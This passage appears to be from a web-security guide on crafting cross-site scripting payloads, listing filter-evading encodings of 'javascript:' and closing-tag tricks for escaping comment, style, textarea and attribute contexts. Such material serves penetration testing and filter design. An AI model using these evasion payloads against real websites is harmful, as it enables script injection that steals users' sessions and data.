 The noticeable difference between these two variants is the `{special}` component as well as the `{quote}`s.
The `{special}` refers to an obfuscated version of the string `javascript` which can be obfuscated using using newline and horizontal tab characters, as follows:

- `j%0aAv%0dasCr%09ipt:`
- `J%0aa%0av%0aa%0as%0ac%0ar%0ai%0ap%0aT%0a:`
- `J%0aa%0dv%09a%0as%0dc%09r%0ai%0dp%09T%0d%0a:`

Numeric character encoding can also be used to evade detection in some cases. Both decimal and hexadecimal can be used.

- `&#74;avascript&colon;`
- `jav&#x61;&#115;cript:`

Obviously, these two obsfucation techniques can be used together if required.
- `&#74;ava%0a%0d%09script&colon;`

#### Executable and Non-executable Context

Outside tag context can be further divided into **Executable** and **Non-executable** context based on whether or not the injected payload can execute without any special aid.
Non-executable context occurs when the input gets reflected within a HTML comment i.e. `<--$input-->` or inbetween the following tags:

```
<style>
<title>
<noembed>
<template>
<noscript>
<textarea>
```

These tags must be closed in order to execute the payload. Thus, the only difference between  testing exectuable and non-executable context is the testing of the `{closing tag}` component, which can be done as follows:

- `</tag>`
- `</tAg/x>`
- `</tag{space}>`
- `</tag//>`
- `</tag%0a>`
- `</tag%0d>`
- `</tag%09>`


Once a working closing tag scheme is discovered, `{closing tag}{any payload from executable payload section}` can be used for a successful injection.

### Inside Tag

#### Within/as Attribute Value
The primary character for this context is the quote used to enclose the attribute value. For instance, if the input is getting reflected as `<input value="$input" type="text">` then the primary character would be `"`.
However, in some cases, the primary character is not required to break out of the context. 
